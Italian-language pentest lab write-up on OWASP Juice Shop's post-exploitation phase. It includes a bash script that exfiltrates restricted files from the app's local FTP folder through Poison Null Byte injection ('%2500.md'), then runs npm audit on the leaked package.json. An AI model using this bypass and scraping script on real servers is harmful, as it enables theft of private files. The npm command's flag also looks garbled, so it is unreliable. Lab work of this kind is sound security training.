 ```yaml
---
title: "Juice Shop Post Exploitation"
author: ""
date: "2025-07-06"
toc: true
toc-depth: 2
---
```


# 1. Data exfiltration
## Introduzione
La data exfiltration è il processo mediante il quale un attaccante riesce a sottrarre informazioni sensibili da un sistema informatico senza autorizzazione. Diversamente dalla semplice compromissione di un sistema, l'esfiltrazione comporta l'estrazione attiva di dati — spesso in modo furtivo, evitando di essere rilevata dai sistemi di sicurezza.

## Data exfiltration dei file nella cartella FTP
Come scoperto tramite information gathering e vulnerability assessment, la cartella FTP rimane liberamente accessibile nonostante sia una cartella che contenga dei file privati ed è possibile ottenere l'accesso ai dati tramite il Poison Null Byte, come è stato confermato nella fase di exploitation.

A questo punto è possibilee effettuare data exfiltration e scaricare sul proprio dispositivo personale tutti i file riservati contenuti all'interno della cartella FTP. Si cerca di automatizzare l'intero processo di exfiltration.

### Procedimento
1. Creare un file denominato scraping.sh che contiene il seguente codice:
```sh
#!/bin/bash

# URL e cartella in cui verranno scaricati i file
BASE_URL="http://127.0.0.1:3000/ftp"
DEST_DIR="ftp_downloads"

# Crea la cartella di destinazione
mkdir -p "$DEST_DIR"

# FILE_LIST conterrà tutti i link presenti nella directory FTP
# Legge il file HTML di FTP e si salva tutti i link href, ovvero i file presenti all'intenro della pagina, situati al suo interno
FILE_LIST=$(curl -s "$BASE_URL/" | grep -oP '(?<=href=")[^"]+')

# Per ognuno dei file trovati
for file in $FILE_LIST; do
    # Escludi la directory corrente o link "vuoti"
    if [[ "$file" == "." || -z "$file" ]]; then
        continue
    fi

    # Controlla se il file termina con .md o .pdf
    if [[ "$file" =~ \.md$ || "$file" =~ \.pdf$ ]]; then
        DOWNLOAD_NAME="$file"
    else
    # Se non termina con .md o pdf, esegui un attacco tramite Null Byte Injection
        DOWNLOAD_NAME="${file}%2500.md"
    fi

    echo "Dowloading $file"
    
    # Scarica e salva il file
    curl -s -o "$DEST_DIR/$file" "$BASE_URL/$DOWNLOAD_NAME"
done

echo "Scraping completed."
```

2. Aprire la bash e spostarsi nella cartella in cui è presente il file appena creato.
3. Eseguire lo script usando il comando:
```sh
bash scraping.sh
```
4. I file scaricati saranno situati dentro la sottocartella `ftp_downloads`.

### Prova del procedimento
![Data exfiltration dei dati in FTP](../immagini/post-exploitation/FTP_DE.png)


# 2. Information gathering dentro il sistema compromesso (Pillaging)
## Introduzione
Pillaging è un termine molto usato in ambito pentest per indicare la raccolta sistematica di informazioni sensibili dopo aver compromesso un sistema.

## Package.json
Dopo essere entrato in possesso dei file contenuti dentro la cartella FTP, si è andati alla ricerca di qualsiasi informazioni che possa essere usato per ottenere informazioni e identificare ulteriori punti d'attacco dell'applicazione.

In particolare, un file che salta all'occhio è `package.json` che rappresenta un file contente informazioni creati dal software `npm` usato per gestire `node.js`. All'interno di questo file sono contenute tutte le librerie e dipendenze usate da Node per gestire il server stesso. Si procede all'analisi delle librerie per scovare dipendenze vulnerabili.

### Prodedimento
1. Si apre il file per un analisi manuale del file e trovare che esiste la sezione dipendenze.

![File package.json](../immagini/post-exploitation/package_json.png)

2. Si utilizza il comando:
```sh
npm audit --package.json > audit-report.txt
```
Per creare un report di eventuali dipendenze vulnerabili.

3. Il report, in questo caso, ha trovato 172 vulnerabilità di cui: 

    * 6 vulnerabilità di bassa gravità
    * 53 vulnerabilità di media gravità
    * 71 vulnerabilità di alta gravità
    * 42 vulnerabilità critiche

### Prova del procedimento
![alt text](image.png)